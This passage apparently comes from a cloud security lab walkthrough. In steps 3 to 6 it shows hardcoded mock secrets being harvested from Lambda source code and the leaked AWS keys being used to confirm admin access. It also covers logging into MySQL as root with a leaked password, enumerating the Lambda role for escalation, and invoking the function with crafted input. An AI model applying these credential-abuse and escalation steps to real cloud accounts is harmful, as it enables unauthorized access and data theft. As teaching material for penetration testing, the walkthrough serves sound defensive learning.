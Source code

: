 3.  **Analyze the Source Code:**
    Examined the unzipped code (e.g., `main.py`, `.env` files) for hardcoded secrets:
    * **Discovery:** Found hardcoded `AWS_SECRET_ACCESS_KEY` and `AWS_ACCESS_KEY_ID` belonging to the `OverPrivilegedAdmin` user, as well as mock `DB_PASSWORD` and `SENDGRID_API_KEY`.
    * **Example:**
        ```python
        # Inside main.py or a config file
        DB_PASSWORD = "supersecret123"
        AWS_SECRET_ACCESS_KEY = "abcd1234fakekey"
        SENDGRID_API_KEY = "SG.XXXX"
        ```

4.  **Use Leaked Secrets for Further Exploitation:**

    * **A) AWS Keys Found?**
        Used the discovered AWS keys to configure CLI and test access:
        ```bash
        export AWS_ACCESS_KEY_ID=...
        export AWS_SECRET_ACCESS_KEY=...
        aws sts get-caller-identity
        ```
        * **Result:** Confirmed administrative access to the AWS account.

    * **B) Database Credentials?**
        Attempted to connect to the MySQL database discovered in EC2 exploitation using leaked database credentials:
        ```bash
        mysql -h 54.33.45.132 -u root -p'supersecret123' # Replace with MySQL IP and password
        ```

5.  **Abuse the Lambda Role (Privilege Escalation):**
    Identified the Lambda function's execution role from `get-function` response (e.g., `arn:aws:iam::123456789012:role/lambda_basic_execution`).
    * **Enumerated Role Privileges:**
        ```bash
        aws iam get-role --role-name lambda_basic_execution
        ```
    * **Result:** If permissions like `s3:*`, `ec2:*`, `ssm:*` existed, these could be abused to:
        * Download S3 data.
        * Start EC2 instances.
        * Pull secrets from SSM Parameter Store.

6.  **Invoke the Function Manually:**
    Attempted to invoke the function with crafted input to identify sensitive data leaks or errors:
    ```bash
    aws lambda invoke \
    --function-name SecretDisclosureFunc \
    --payload '{"username":"admin"}' \
    output.txt
    cat output.txt
    ```
    * **Result:** Could potentially reveal sensitive data in logs, error messages, or stack traces.
